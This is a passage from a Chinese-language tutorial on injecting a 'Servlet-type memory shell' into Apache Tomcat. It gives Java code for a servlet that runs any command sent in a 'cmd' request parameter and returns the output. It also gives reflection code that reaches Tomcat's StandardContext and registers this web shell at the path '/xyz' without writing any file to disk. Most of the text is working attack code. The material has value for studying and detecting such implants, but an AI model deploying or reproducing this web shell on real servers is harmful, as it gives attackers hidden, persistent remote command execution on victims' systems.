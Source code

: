 如果在当前 web 根目录则不需要寻找上一级目录

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4eLXficyiaLgyzHGHfZnGDoQePnTlOpn8ksT6EauwRicMrkic0qZwhlOaYQ/640?wx_fmt=png)

Servlet 型内存马实现 Servlet 部分 一个简单的 servlet

```
public class ServletDemo implements Servlet {        //当Servlet第一次被创建对象时执行该方法,该方法在整个生命周期中只执行一次    public void init(ServletConfig arg0) throws ServletException {        System.out.println("init");    }    //对客户端响应的方法,该方法会被执行多次，每次请求该servlet都会执行该方法    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {        System.out.println("service");    }    //当Servlet被销毁时执行该方法    public void destroy() {        System.out.println("destroy");    }        //当停止tomcat时销毁servlet。    public ServletConfig getServletConfig() {        return null;    }    public String getServletInfo() {        return null;    }}
```

类比 filter，在 filter 型中我们需要在 doFilter 方法中填入恶意代码

在 servlet 中，我们需要在 service 方法中填入恶意代码，每次访问就会触发命令执行。

在 service 填入 RuntimeExec 和回显的部分，这个 servlet 就变成了进行命令执行的木马

```
class ServletDemo implements Servlet{        @Override    public void init(ServletConfig config) throws ServletException {}    @Override    public String getServletInfo() {return null;}    @Override    public void destroy() {}    public ServletConfig getServletConfig() {return null;}    @Override    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {        String cmd = servletRequest.getParameter("cmd");        if (cmd != null) {            Process process = Runtime.getRuntime().exec(cmd);            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(                    new java.io.InputStreamReader(process.getInputStream()));            StringBuilder stringBuilder = new StringBuilder();            String line;            while ((line = bufferedReader.readLine()) != null) {                stringBuilder.append(line + '\n');            }            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());            servletResponse.getOutputStream().flush();            servletResponse.getOutputStream().close();            return;        }    }}
```

动态注册部分
======

获取 context 部分与 filter 中相同, 仍然从 org.apache.catalina.core.ApplicationContext 反射获取

```
ServletContext servletContext =  request.getSession().getServletContext();Field appctx = servletContext.getClass().getDeclaredField("context");appctx.setAccessible(true);ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);Field stdctx = applicationContext.getClass().getDeclaredField("context");stdctx.setAccessible(true);StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

然后这次需要将上文写的 servlet 封装成 wrapper 再使用 context 添加

```
//将恶意servlet封装成wrapper添加到StandardContext的children当中ServletDemo demo = new ServletDemo();org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();demoWrapper.setName("xyz");demoWrapper.setLoadOnStartup(1);demoWrapper.setServlet(demo);demoWrapper.setServletClass(demo.getClass().getName());standardContext.addChild(demoWrapper);//设置ServletMap将访问的URL和wrapper进行绑定standardContext.addServletMapping("/xyz", "xyz");out.println("inject servlet success!");
```
